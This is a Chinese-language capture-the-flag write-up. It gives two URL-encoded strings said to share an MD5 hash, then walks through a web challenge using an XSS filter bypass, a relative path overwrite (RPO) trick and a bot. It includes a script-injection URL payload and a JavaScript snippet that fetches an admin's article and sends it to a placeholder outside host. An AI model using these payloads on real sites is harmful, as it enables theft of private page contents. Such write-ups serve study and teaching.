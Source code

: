 ```
Param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

Param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```
>注：上述两个字符串其md5加密后密文相同。

### Share your mind
这题必须要写一下自己的踩坑经历，首先进去浏览一下页面功能，有个提交bug页面的地方，还有个可以新建文章的地方

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q15.PNG)

最后就是浏览文章(但是只能浏览自己发的文章)，首先想到的就是xss+csrf，新建一个文章引用一段JS然后发给bot，然后ajax请求admin的文章发回来。可是按照这个思路我们发现在新建文章页面我们的`<>`被过滤了，所以我们不能直接构造一个js。猜想能不能在report页面里进行xss，但是发现存在过滤，只能像自己网站的地址发起请求，但是”居然”可以绕过!!!!!!,payload:

`http://39.107.33.96:20000/index.php/report/<script src="xxxxxx.com"></script>`

于是无尽的踩坑之旅开始了，首先是bot返回结果没有cookie，一开始也没在意以为设置了httponly,(后来大致明白bot过程了,先check url-未读,然后add_cookie-已读，这里直接用`<script>`标签其实是在add_cookie之前就返回了所以不带cookie)让他AJAX请求访问admin的文章，代码如下

```
var a = new XMLHttpRequest();
a.open('GET', 'index.php/view/article/1', false);
a.send(null);
b = a.responseText;
(new Image()).src = 'http://xxxxx/?flag=' + escape(b);
```

结果bot返回结果是未登录，然后我就很懵逼，后来给了`hint1:phantomjs/2.1.1`结果这提示给了以后我就以为是日bot，各种谷歌找2.1.1的漏洞，一直到下午出了hint2:漏洞点不在report…推翻了一个下午的努力成果。一直到晚上我才想起来index页面有一个`../static/js/bootstrap.min.js`的相对路径引用

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q12.PNG)

想起来寒假时候看的rpo，关于rpo的原理这里不想赘述了，给个连接

>https://open.appscan.io/article-462.html

这里文章查看页面没有引用DOCTYPE html，所以存在rpo漏洞,新建一个文章,文章title为空(title不为空的时候会添加一个`<h1>`标签导致浏览器解析js的时候报错

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q13.PNG)

内容输入js代码比如`alert(1)`

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q10.PNG)

然后访问这

`http://39.107.33.96:20000/index.php/view/article/635/..%2f..%2f..%2f..%2findex.php`

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q11.PNG)

把635替换成你的文章代码,这里对于服务器来说访问的是

`http://39.107.33.96:20000/index.php`
